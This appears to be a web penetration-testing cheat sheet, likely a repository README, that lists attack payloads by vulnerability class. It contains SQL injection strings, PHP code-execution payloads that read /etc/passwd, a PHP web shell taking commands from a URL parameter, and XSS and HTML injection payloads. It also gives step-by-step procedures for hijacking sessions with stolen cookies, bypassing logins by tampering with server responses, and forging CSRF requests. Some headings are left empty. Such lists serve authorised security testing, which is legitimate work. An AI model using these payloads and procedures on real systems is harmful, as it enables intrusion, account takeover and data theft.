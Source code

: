 ## Time Based Blind SQL Injection:
```
'(select * from (select(sleep(10)))a)
,(select*from(select(sleep(15)))a)
';WAITFOR DELAY '0:0:30'--
```
## Error Based SQL Injection:

## Boolean Based Blind SQL Injection:
```
'2 OR 1=1
''2 OR 1=1
"2 OR 1=1
'2 AND 1=1
''2 AND 1=1
"2 AND 1=1
```
## Local File Inclusion (LFI):
```


```
## Remote Code Execution (RCE):
```
<?php system("cat /etc/passwd");?>
<?php system("id");?>
<?php echo phpinfo(); ?>
<?php include 'C:\Windows\System32\drivers\etc\hosts';?>
```
## Malicious File Upload (Shell Execution):
```
<?php system($_GET['cmd']); ?>

https://github.com/hackerhijeck/For_Me/blob/main/Web_Shell.php
```
## Application is Vulnerable to Reverse Web shell (Shell Execution):
```

```
## File Upload Bypass:
```
https://book.hacktricks.xyz/pentesting-web/file-upload
```
## Session Hijacking:
```
Step1: Using xss hunter payload, execute the payload in logged in user account.
Step2: After got the cookies in the XSS Hunter.
Step3: Copy the cookies and before login paste and change into the cookies and refresh it.
```
## Session Fixation in The Application:
```
Step1: Before login, Check the cookie or session token.
Step2: Then After login, Check the cookie or session token, If same token or cookies is there.
```
## URL Redirection in the application:
##### Endpoint Pattern:
```
/?url=
/?redirect_url:
/?checkout_url=
/?login_url=
/?redirect_uri=
```
## Reflected Cross Site Scripting Attack:
```
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
javascript:alert(1)//
"onmouseover=alert(1);
<x onclick=alert(1)>click!
```
## HTML Injection
```
<h1>HTML_Injection</h1>
<marquee>HTML_Injection</marquee>
```
## Link Injection:
```
<a href="https://www.intelliroot.com">ClickMe</a>
```
## Iframe Injection:
```
<iframe src="https://www.intelliroot.com"></iframe>
```
## Blind Cross Site Scripting Attack:
```
XSS Hunter payload
```
## Admin/User Login Authentication Bypass Using Success Response:
#### Process 1:
```
Step1: Login panel capture the request and Do intercept and click to respnse to this request and then forward the request
Step2: If Response code 404 Forbidon then change to 200 OK. and then forward the request.
```
#### Process 2:
```
Step1: In login panel first logged in a valid user and capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step2: Copy the 200 OK reponse data and save it any txt format.
Step3: Now try to unathorized user, in login panel capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step4: In Response data, paste the data which copied from a valid user, and then forward the request.
```
## Cross Site Request Forgery (CSRF):
```
Step1: Capture any POST data and click generate CSRF poc, save it into the html file.
Step2: Change the POST data to anything you want.
Step3: Now open into the browser and click submit.
```
### Test CGI script exposes environment variables
### Account Takeover through forget password
### Improper File Content Validation in the Application
### No Session Termination After Password Change:
```
Step1: Login as a user, After logged in capture a request of any functionality and get into the Repeater and send to Response.
Step2: Wait minimum 40,50 minutes, Do not loggout the account.
Step3: After complete the time, then again click send to the reponse in the Burpsuite.
Step4: If its working properly, then it No Session Termination Vulnerability.
```
### Password History Check is not Implemented
### Concurrent Logins with the Same Username in admin/user account
### Trace method Enabled
### Full path disclosure
### Improper Input Validation in the Application:
```
<script>alert(1)</script>
<h1>Test</h1>
```
### Client side validation bypass of email and phone number verification
### Application is Vulnerable to Clickjacking Attacks
### OpenSSL Version disclose in the application
### Last Login Time Not Implemented in the Application

